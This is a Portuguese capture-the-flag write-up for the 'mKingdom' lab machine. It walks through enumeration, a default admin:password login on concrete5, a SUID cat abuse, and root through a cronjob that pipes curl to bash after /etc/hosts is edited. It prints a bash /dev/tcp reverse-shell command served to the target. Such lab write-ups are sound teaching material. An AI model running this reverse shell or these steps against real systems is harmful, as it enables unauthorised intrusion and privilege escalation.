









# _**mKingdom CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -p- -A [ip_address]
> ```


Vamos utilizar <mark>Gobuster</mark> para tentar enumerar diretórios no website descoberto
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos um diretório, _/app_  
Acessando, temos um botão para cliclar que nos leva para outro website  
Neste website, temos alguns links que nos levam a diferentes seções do site, mas nenhum deles é útil  
Vamos novamente realizar um scan com <mark>Gobuster</mark>  


Mais alguns diretórios dos quais podemos investigar  
Verificando a página com as ferramentas de desenvolvedor, encontramos algo interessante  


Vamos primeiro investigar os diretórios encontrados  
Dos diretórios, _/concrete_ tinha bastante conteúdo, porém, a grande maioria útil com acesso negado  
Outros diretórios quase nenhuma informação relevante  
Novamente, utilizamos <mark>Gobuster</mark> em nos diretórios descobertos para tentarmos encontrar algo  
E temos retorno em _/index.php_, inesperado  



## _**Ganhando acesso**_
Investigando os diretórios, conseguimos encontrar qual CMS está sendo utilizado: **concrete5**, porém, não sabemos a versão  
Por sorte, na página de login foi tentado **admin:password** e foi feito login com sucesso  
Pesquisando pela versão de **concrete5**, agora que temos login, encontramos a versão 8.5.2  
Buscando por vulnerabilidades e exploits, encontramos [esta CVE](https://nvd.nist.gov/vuln/detail/CVE-2020-24986)  
Um _report_ pelo [hackerone](https://hackerone.com/reports/768322) explica como explorar essa falha  



## _**Escalando privilégios**_
Buscando por binários **SUID**, encontramos _/bin/cat_  
Temo como dono o usuário **toad**  
Podemos utilizar para ler seus arquivos  
Procurando arquivos _default_, encontramos um token criptografado em base64 no final do arquivo _/home/toad/.bashrc_  
Tentando login ```su``` como **toad**, mas sem sucesso  
Como **mario**, deu certo  



Agora, investigando por um longo tempo o usuário, não foi encontrado maneiras óbvias de escalar privilégios  
Por isso, com o auxílio da ferramenta <mark>pspy</mark>, encontramos um _cronjob_  
Este _cronjob_ busca o script na URL indicada usando ```curl```, executa-o canalizando-o para o bash e anexa a saída dele ao arquivo _/var/log/up.log_  



Verificamos se podemos alterar _/counter.sh_, mas não temos como



Vamos então executar a ferramenta <mark>LinPeas</mark> para encontrar uma maneira de se explorar  
Nosso retorno indica que o arquivo _/etc/hosts_ é editável  



Agora só precisamos criar um arquivo _counter.sh_ que possa gerar um shell reverso simples e colocá-lo dentro do diretório _/app/castle/application_  
Em seguida iniciar um servidor http em python na porta 85 para que todo o caminho para o arquivo servido seja lido  
E por fim, iniciar um ouvinte netcat em uma porta diferente para escutar  
Em nossa máquina
> ```bash
> mkdir -p app/castle/application/
> echo "bash -c 'bash -i >& /dev/tcp/[vpn_ip_address]/[port] 0>&1'" > app/castle/application/counter.sh
> python3 -m http.server 85
> netcat [port]
> ```

É possível alterar o arquivo _/etc/hosts_ através do próprio terminal se seguir estes comandos após obter a shell, melhorá-la com Python e antes de realizar login como **mario**  
> ```bash
> export TERM=xterm
> ctrl+z
> stty raw -echo; fg
> id
> ```
Você melhora a shell ainda mais para poder conseguir editar o arquivo com ```nano```  
Após alterar o arquivo _/etc/hosts_, aguarde e obterá _root shell_  
Como não é possível ler arquivos com ```cat``` devido ao usuário **toad**, pode ser utilizado ```less```  
